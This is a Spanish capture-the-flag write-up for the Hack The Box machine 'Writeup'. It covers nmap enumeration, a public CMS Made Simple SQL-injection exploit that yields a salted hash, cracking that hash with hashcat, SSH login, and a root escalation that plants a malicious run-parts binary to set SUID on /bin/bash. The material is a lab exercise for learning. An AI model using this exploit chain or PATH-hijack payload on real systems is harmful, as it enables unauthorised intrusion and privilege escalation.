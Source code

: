 - Tags: #web_enumeration #linux #pathhijacking #process_enumeration #cracking_hash_salt

[!portada.png](../assets/images/WriteUp/portada.png)

# RECONOCIMIENTO
----------

- Verificación de `SO`

```bash
ping -c 1 10.10.10.138
```

- Escaneo de puertos abiertos dentro de la maquina

```bash
namp -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.138 -oG allPorts
```

- Información mas detallada sobre los servicios que corren por detrás de los puertos abiertos

```bash
nmap -p80,22 -sCV 10.10.10.138 -oN targeted
```

- Script de reconocimiento básico sobre los directorios abiertos

```bash
nmap -p80 --script=http-enum 10.10.10.138 -oN webScan
```

- Información básica sobre la pagina web

```bash
whatweb http://writeup.htb/writeup/
```

---------
# EXPLOTACIÓN
-----------

- **Nos damos cuenta de que es un CMS Made Simple 2019**

![Pasted image 20240829225020.png](/assets/images/WriteUp/Pastedimage20240829225020.png)

- **Ejecutamos el exploit y lo que sacamos de el es lo siguiente:**

```bash
python2.7 46635.py -u http://10.10.10.138/writeup
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

----------
# CRACKEO DE PASSWORDS
---------

**Como vemos encontramos dos hashes, uno es un hash `md5` normal y otro pone `salt` , por lo que sabemos que la password se ha hasheado con un `salt`, por lo que para descifrar dicho `hash` haremos lo siguiente:**

>Fichero hash.txt
```bash
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
```

**Hemos puesto el hash al principio separado por `:` el salt**

>Comando de hashcat:


```bash
hashcat -m 20 -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt
```

- Resultado:

```bash
File: cracked.txt
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
```

-------------
# SSH
-------

```bash
❯ ssh jkr@10.10.10.138
jkr@10.10.10.138's password: 
Linux writeup 6.1.0-13-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Aug 29 13:25:30 2024 from 10.10.16.4
jkr@writeup:~$
```

**USER**

```bash
jkr@writeup:~$ cat user.txt 
a7e8af276747a411dc39b0206d00e219
jkr@writeup:~$
```

-----------
# ESCALADA DE PRIVILEGIOS
----------

- **Al ejecutar el comando `id` vemos lo siguiente:**

```bash
jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

- **Como vemos hay un grupo `staff` que se sale de lo normal, por lo que vamos a ver que es lo que hace este grupo en especifico.**

>`STAFF`
- `Allows users to add local modifications to the system (/usr/local) without needing root privileges (note that executables in /usr/local/bin are in the PATH variable of any user, and they may "override" the executables in /bin and /usr/bin with the same name). Compare with group "adm", which is more related to monitoring/security.`

**Por lo que al ser del grupo `staff` podemos escribir en `usr/local/bin` & `usr/local/sbin`**

>Ambas rutas suelen estar en la variable de entorno $PATH del usuario root, lo que significa
>lo que significa que podríamos reemplazar un programa que root probablemente ejecute fuera de esos directorios con un archivo malicioso que contenga una carga útil que nos permita escalar nuestros privilegios que contenga una carga útil que nos permita escalar nuestros privilegios.

- **Para ver los procesos que esta ejecutando el usuario `root` en el sistema hacemos lo siguiente**

`Ejecutamos el script pspy`

```bash
jkr@writeup:/tmp/$ ./pspy32
```

----------
# PATH HIJACKING
----------

**Al ejecutar la herramienta vemos lo siguiente interesante:**

```bash
<...SNIP...>
2019/06/09 08:45:43 CMD: UID=0 PID=8528 | sshd: [accepted]
2019/06/09 08:45:43 CMD: UID=0 PID=8529 | sshd: [accepted]
2019/06/09 08:45:43 CMD: UID=0 PID=8530 | sshd: jkr [priv]
2019/06/09 08:45:43 CMD: UID=0 PID=8531 | sh -c /usr/bin/env -i
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --
lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
2019/06/09 08:45:43 CMD: UID=0 PID=8532 | run-parts --lsbsysinit /etc/update-
motd.d
2019/06/09 08:45:43 CMD: UID=0 PID=8533 | /bin/sh /etc/update-motd.d/10-uname
<...SNIP...>
```

Como vemos se esta haciendo una llamada a la función `run-parts`, en el directorio `/bin` cada vez que un cliente nuevo se conecta por ssh. Por lo que podemos hacer es crear un script llamado `run-parts` que haga lo siguiente:

```bash
echo -e '#!/bin/bash\n\nchmod u+s /bin/bash' > /usr/local/bin/run-parts; chmod +x /usr/local/bin/run-parts
```

**Esto lo que hará es que como el sistema empezara buscando por el principio del `PATH` hasta encontrar el binario `run-parts`, nosotros ponemos nuestro binario malicioso al principio del `PATH` que tenemos permisos de escritura y esto en vez de hacer las funciones de `run-parts` nos proporcionara una `/bin/bash suid`**

- De ultimas ejecutar un `bash -p` y nos dará una shell `root`.
